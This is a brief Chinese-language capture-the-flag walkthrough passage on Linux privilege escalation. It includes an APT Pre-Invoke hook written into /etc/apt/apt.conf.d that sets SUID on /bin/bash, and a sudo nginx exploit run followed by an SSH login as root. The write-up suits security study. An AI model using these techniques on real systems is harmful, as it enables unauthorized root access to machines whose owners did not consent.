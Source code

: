 ![image](https://github.com/user-attachments/assets/5775c59b-9752-47a6-aae0-e17ac45e9efa)

甩了一个 Linpeas 脚本,我们得知用户 `jerry` 属于 `sistema` 组，他能够写入 `/etc/apt/apt.conf.d`，那我们可以在更新软件包使用 APT 命令修改 bash 权限。

```
echo 'APT::Update::Pre-Invoke:: {"chmod u+s /bin/bash"};' > /etc/apt/apt.conf.d/01ab
```

![image](https://github.com/user-attachments/assets/5dd2d63a-355a-4480-a0ba-da2cbdf81215)

找到了 **jerry** 凭证，使用这个凭证再重新连接主 ip

![image](https://github.com/user-attachments/assets/5b778922-ef9e-4af3-b23d-d2a28a2f7b02)

查看 sudo 权限可以看到我们可以**以 root 身份运行 nginx，**  通过 google 搜索可以发现一个关于nginx 的漏洞

> [!IMPORTANT]
> https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406

```
./exploit.sh
ssh -i /home/jerry/.ssh/id\_rsa root@127.0.0.1
```

拿下 root